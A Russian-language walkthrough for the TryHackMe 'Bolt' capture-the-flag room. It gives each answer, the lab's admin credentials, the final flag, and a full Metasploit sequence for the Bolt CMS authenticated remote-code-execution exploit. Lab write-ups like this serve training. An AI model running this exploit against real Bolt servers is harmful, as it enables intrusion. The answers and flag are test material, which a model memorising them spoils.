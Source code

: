 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Bolt](https://tryhackme.com/r/room/bolt) 

Всего 2 задания:
## Задание 1
Эта комната предназначена для пользователей, чтобы ознакомиться с Bolt CMS и тем, как ее можно эксплуатировать с помощью Authenticated Remote Code Execution. Вам следует подождать не менее 3-4 минут, чтобы машина запустилась должным образом.

Если у вас есть какие-либо вопросы или отзывы, вы можете связаться со мной через сервер TryHackMe Discord или через Twitter .

### Ответьте на вопросы ниже
Запустите машину

```commandline
Ответ не нужен
```
## Задание 2
#### Герой освобожден

После успешного развертывания виртуальной машины проведите ее перебор, прежде чем искать флаг на машине.

### Ответьте на вопросы ниже
Какой номер порта имеет веб-сервер с работающей CMS?
```commandline
nmap <IP>
```
```commandline
8000
```
Какое имя пользователя мы можем найти в CMS?
```commandline
http://<IP>:8000
```
```commandline
bolt
```
Какой пароль мы можем найти для этого имени пользователя?
```commandline
boltadmin123
```
Какая версия CMS установлена на сервере? (Пример: Название 1.1.1)
```commandline
http://<IP>:8000/bolt/login
# bolt:boltadmin123
```
```commandline
Bolt 3.7.1
```
Есть эксплойт для предыдущей версии этой CMS, который позволяет аутентифицированный RCE.  Найдите его на Exploit DB. Какой у него EDB-ID?
```commandline
48296
```
Metasploit недавно добавил модуль эксплойта для этой уязвимости. Каков полный путь для этого эксплойта? (Например: explore/....)

Примечание: Если вы не можете найти модуль эксплойта, скорее всего, ваш metasploit не обновлен. Запустите ` apt 
update `, затем ` apt install metasploit-framework ` 

```commandline
apt update
apt install metasploit-framework
msfconsole
search bolt
use exploit/unix/webapp/bolt_authenticated_rce
set RHOSTS <IP>
set LHOST <IP>
set USERNAME bolt
set PASSWORD boltadmin123
set TARGETURI http://<IP>:8000/
exploit
```

```commandline
exploit/unix/webapp/bolt_authenticated_rce
```
Установите LHOST, LPORT, RHOST, USERNAME, PASSWORD  в msfconsole перед запуском эксплойта
```commandline
Ответ не нужен
```
Найдите flag.txt внутри машины.
```commandline
whoami
cd /home
ls -al
cat flag.txt
```
```commandline
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)